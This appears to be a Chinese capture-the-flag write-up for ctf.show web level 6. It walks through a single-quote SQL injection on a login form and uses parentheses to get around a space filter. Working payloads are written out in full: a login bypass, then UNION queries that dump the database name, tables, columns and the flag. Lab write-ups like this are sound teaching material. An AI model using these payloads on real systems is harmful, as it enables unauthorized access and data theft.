







## web6

~~~ txt
ctf.show WEB模块第6关是一个SQL注入漏洞,注入点是单引号字符型注入,并且过滤了空格,我们可以使用括号()或者注释/**/绕过
~~~

由于是基础题，这种带输入框的一看就是<code>sql注入</code>

+ 首先尝试万能账号如下，注意使用括号<code>()</code>替换空格，用户名输入以下<code>payload</code>而密码随便输

~~~ shell
a'or(true)#
~~~

成功登录

+ 使用联合注入获取当前使用的数据库，用户名注入以下<code>payload</code>，密码随便输

~~~ shell
a'or(true)union(select(1),database(),3)#
~~~

成功爆出数据库名

+ 爆表

~~~ shell
a'or(true)union(select(1),(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web2')),3)#
~~~

成功爆出数据表

+ 爆列

~~~ shell
a'or(true)union(select(1),(select(group_concat(column_name))from(information_schema.columns)where((table_schema='web2')and(table_name='flag'))),3)#
~~~

成功爆破出数据列

+ 爆数据

~~~ shell
a'or(true)union(select(1),(select(flag)from(flag)),3)#
~~~

成功夺旗
